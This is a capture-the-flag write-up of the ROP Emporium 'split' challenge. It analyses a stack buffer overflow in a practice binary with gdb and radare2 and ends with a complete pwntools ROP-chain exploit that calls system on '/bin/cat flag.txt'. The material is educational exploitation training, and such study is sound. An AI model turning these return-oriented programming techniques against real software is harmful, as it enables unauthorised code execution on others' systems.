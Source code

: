 ```yaml
---
title: RopEmporium - Split
date: 2022-08-17 23:20:12
tags: [ropemporium, rop]
---
```


The elements that allowed you to complete ret2win are still present, they've just been split apart. Find them and recombine them using a short ROP chain

<!-- more -->

The goal of this challenge is to understand how function arguments are passed in 64bit machine when doing return oriented programming. The binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

First we check the binary protections enabled. Only **NX** (Not executable) is enabled on the device according to `checksec` binary utility as shown in the image below.

```bash
vx@archie:split$ checksec --file=split
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For analysis of binary we use `gdb` to analyze the functions present in the binary in order to understand the logic. We disassemble **pwnme** function as shown in the image below.The function looks familiar as for the ret2win function.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400810
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x40083c
   0x0000000000400715 <+45>:	mov    eax,0x0
   0x000000000040071a <+50>:	call   0x400570 <printf@plt>
   0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
   0x0000000000400723 <+59>:	mov    edx,0x60
   0x0000000000400728 <+64>:	mov    rsi,rax
   0x000000000040072b <+67>:	mov    edi,0x0
   0x0000000000400730 <+72>:	call   0x400590 <read@plt>
   0x0000000000400735 <+77>:	mov    edi,0x40083f
   0x000000000040073a <+82>:	call   0x400550 <puts@plt>
   0x000000000040073f <+87>:	nop
   0x0000000000400740 <+88>:	leave
   0x0000000000400741 <+89>:	ret
End of assembler dump.
(gdb)
```

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values that is present in the memory area specified. The memory region we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the boundary of base pointer address in the stack.

![](/images/ropemporium/stack.png)

Next function is **read** function, which reads for user input from the standard input file descriptor and stores in specified buffer. From disassembled code, we are reading **0x60** bytes from the user input and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);
```

For this challenge we don't have a `ret2win` function which we are to return to. From the disassembly of the binary we have an interesting function called **usefulFunction** responsible for listing the files in the directory when called.

```nasm
(gdb) disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0x40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret
End of assembler dump.
(gdb) x/s 0x40084a
0x40084a:	"/bin/ls"
(gdb)
```

Goal is to pass a different string to the `system` function instead of **"/bin/ls"**

From the author's hint, we can look for useful hints in the binary using either radare2.

> Now that you've gathered the elements of your exploit you can start to piece them together, you want to call system() with the **"/bin/cat flag.txt"** string as the only argument. You'll also have to start dealing with the differences between the various architectures' calling conventions.

Analyzing binary using `radare2`, we can use **iz** command to look for strings. The goal is to read the flag from the system.

```nasm
[0x004005b0]> iz
nth paddr      vaddr      len size section type  string
---------------------------------------------------------------------------------------------
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

```

We have an important string **"/bin/cat flag.txt"** which will enable us to complete our goal. Now we need pass string to system function as follows **system('/bin/cat flag.txt')**.

For building ropchain, we need to understand the calling conventions of **AMD64 ABI**.The calling convention passes the arguments to the registers in the following order **RDI, RSI, RDX, RCX, R8 and R9**.

Because the system function receives one argument, we need to look for one gadget t that we control **rdi** address.

**What are gadgets?**

Gadgets are sequence of instructions that end with `ret` instruction. Because we want to load a value into rdi register, we look for a pop **pop rdi; ret** instruction in order to pass an argument to `system`.

For searching gadget in radare2/rizin, use **/R** command as shown in the image below.

![](/images/ropemporium/split_poprdi.png)
Now we need to chain ropchain exploit as shown in the image below.

![ropchain](/images/ropemporium/popgadget.png)

The goal is to overwrite the return address with the address of **"pop rdi, ret "** and call system function. we need to fill the buffer memory with 32bytes, 8 bytes to overwrite the `rbp` address and 8 bytes to overwrite return address with pop rdi address.

Full exploit of split challenge is;

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process("./split")

system_addr = pwn.p64(0x400560)   #address of system
pop_rdi_ret = pwn.p64(0x004007c3)  # pop rdi; ret gadget
bin_cat_addr = pwn.p64(0x00601060)  #bin cat flag.txt address

payload = b"A" * 32  #fill the buffer
payload += b"B" *8   # overwrite  rbp
payload += pop_rdi_ret # pop rdi gadget
payload += bin_cat_addr # argument passed to the system function
payload += system_addr   #call system

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running python3 code we get a flag.

![](/images/ropemporium/split_flag.png)

> **To avoid the segmentation fault of the above, we can overwrite the rbp address with exit function address in order to exit without segfault.**

